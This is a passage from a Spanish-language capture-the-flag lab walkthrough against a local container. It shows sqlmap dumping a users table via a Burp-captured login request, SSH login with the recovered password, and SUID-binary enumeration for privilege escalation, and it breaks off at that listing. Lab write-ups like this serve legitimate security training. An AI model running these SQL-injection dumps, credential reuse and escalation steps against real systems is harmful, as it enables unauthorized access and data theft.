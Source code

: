 ```
	+----------+------------------+
	| dylan    | KJSDFG789FGSDF78 |
	+----------+------------------+

[16:41:05] [INFO] table 'register.users' dumped to CSV file '/root/.local/share/sqlmap/output/172.17.0.2/dump/register/users.csv'                               
[16:41:05] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/root/.local/share/sqlmap/output/results-06122024_0441pm.csv'
```
Ahora probamos si funcionan el usuario y la contraseña en el panel de Login; y curiosamente, SI funcionan ;).

#### **METODO CORTO:**
Aunque tambien se utiliza SQLMAP, empezariamos usando otro programita: BURPSUITE.
Lo abrimos EN MODO ROOT (importante) y tras configurar el navegador con el proxy "127.0.0.1" y activar el modo "Intercept On" del BURPSUITE, haremos Login en el panel con un usuario y una contraseña cualquiera, ya que se trata solamente de capturar la peticion.
Una vez capturada la peticion, le daremos al boton derecho del raton y seleccionaremos "Save Item" y grabaremos la peticion en un archivo que llamaremos "archivoInjection.txt" por ejemplo.
Ahora ya, cerrariamos BURPSUITE y pasariamos a utilizar SQLMAP, que es donde vamos a usar el metodo "abreviado" a traves del comando:
```
sqlmap -r archivoInjection.txt --dump --batch
```
Esto nos daria directamente el resultado final, lo que nos evitaria estar metiendo los comando uno por uno como hemos hecho en el "MODO LARGO"
Ademas de eso, como en los otros, tambien nos muestra los registros de ambas columnas y aparte, nos informa donde y como se llama el archivo creado con el "--dump".
```
Database: register

	Table: users
	[1 entry]
	+----------+------------------+
	| username | passwd           |
	+----------+------------------+
	| dylan    | KJSDFG789FGSDF78 |
	+----------+------------------+

[16:41:05] [INFO] table 'register.users' dumped to CSV file '/root/.local/share/sqlmap/output/172.17.0.2/dump/register/users.csv'                               
[16:41:05] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/root/.local/share/sqlmap/output/results-06122024_0441pm.csv'
```

Una vez introducidos tanto el usuario como la contraseña, vemos un mensaje en pantalla que dice:
```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```
Ahora lo que haremos sera intentar entrar por el protocolo SSH con el usuario y la contraseña obtenidos; para ello escribimos:
```
ssh dylan@172.17.0.2
```
Contestaremos "yes" a la primera pregunta y despues meteremos la contraseña, y ya estamos dentro.
Ahora nos tocaria hacer la escalada de privilegios, por lo que probaremos primeramente "sudo -l" y nos dice que no encuentra el comando. Es hora de probar una segunda forma que seria con el comando "find / -perm -4000 2>/dev/null":
```
dylan@20f192a37dea:~$ find / -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/su
```